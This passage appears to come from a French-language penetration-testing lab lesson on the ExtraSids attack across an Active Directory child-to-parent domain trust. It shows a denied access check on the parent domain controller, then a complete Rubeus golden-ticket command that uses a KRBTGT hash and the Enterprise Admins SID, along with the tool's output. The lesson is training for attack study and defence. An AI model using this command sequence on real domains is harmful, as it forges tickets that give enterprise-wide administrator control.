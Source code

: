 * * * * *

Attaque ExtraSids - Rubeus
--------------------------

Nous pouvons également effectuer cette attaque en utilisant Rubeus. Tout d'abord, encore une fois, nous confirmerons que nous ne pouvons pas accéder au système de fichiers du contrôleur de domaine du domaine parent.

#### Utiliser ls pour confirmer l'absence d'accès avant d'exécuter Rubeus

  Attaquer les approbations de domaine - Enfant -> Affiliations parentales - à partir de Windows

```
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAcces
   sException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

<SNIP>

```

Ensuite, nous formulerons notre commande Rubeus en utilisant les données que nous avons récupérées ci-dessus. L' `/rc4`indicateur est le hachage NT du compte KRBTGT. Le `/sids`drapeau indiquera à Rubeus de créer notre Golden Ticket nous donnant les mêmes droits que les membres du groupe Enterprise Admins dans le domaine parent.

#### Créer un Golden Ticket avec Rubeus

  Attaquer les approbations de domaine - Enfant -> Affiliations parentales - à partir de Windows

```
PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
[*] SID            : S-1-5-21-2806153819-209893948-922872689
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-3842939050-3880317879-2865463114-519
[*] ServiceKey     : 9D765B482771505CBE97411065964D5F
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 9D765B482771505CBE97411065964D5F
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
```